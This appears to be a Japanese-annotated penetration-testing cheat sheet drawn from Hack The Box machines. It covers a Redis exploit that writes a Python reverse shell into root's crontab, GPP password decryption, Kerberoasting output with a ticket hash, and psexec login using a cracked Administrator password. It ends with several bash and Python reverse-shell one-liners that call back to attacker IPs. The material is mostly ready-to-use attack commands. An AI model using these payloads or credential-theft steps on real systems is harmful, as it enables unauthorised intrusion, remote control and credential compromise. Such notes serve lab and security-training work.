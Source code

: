 ### crontab
/var/spool/cron/crontabsにアクセスできる場合、以下の方法でreverse shellを取得可能。
```
kali@kali:~# echo -e "\n\n*/1 * * * * /usr/bin/python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.10.1603\",8888));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);'\n\n"|redis-cli -h 10.10.10.160 -x set 1
OK
kali@kali:~# redis-cli -h 10.10.10.160
10.10.10.160:6379> config set dir /var/spool/cron/crontabs/
OK
10.10.10.160:6379> config set dbfilename root
OK
10.10.10.160:6379> save
OK
```

## Active Directory()
```
gpp-decrypt edBSHOwhZLTjt/QS9FeIcJ83mjWA98gw9guKOhJOdcqh+ZGMeXOsQbCpZ3xUjTLfCuNH8pG5aSVYdYw/NglVmQ
GPPstillStandingStrong2k18
```
```
GetUserSPNs.py active.htb/SVC_TGS:GPPstillStandingStrong2k18 -dc-ip 10.10.10.100 -request

ServicePrincipalName  Name           MemberOf                                                  PasswordLastSet             LastLogon                   Delegation
--------------------  -------------  --------------------------------------------------------  --------------------------  --------------------------  ----------
active/CIFS:445       Administrator  CN=Group Policy Creator Owners,CN=Users,DC=active,DC=htb  2018-07-19 04:06:40.351723  2022-08-09 14:22:02.669757         

[-] CCache file is not found. Skipping...
$krb5tgs$23$*Administrator$ACTIVE.HTB$active.htb/Administrator*$e4fb9638ec9b760940ed1a3eb8df637d$0a5228e36e281979c...
```
```
/usr/share/doc/python3-impacket/examples/psexec.py 'active.htb/Administrator:Ticketmaster1968@10.10.10.100'
```

# Exploitation
## ^reverse shell
### Bash
```
bash -i >& /dev/tcp/10.0.0.1/8080 0>&1
```

### Python
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
```
import socket,subprocess,os
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect(("10.10.14.9",9004))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```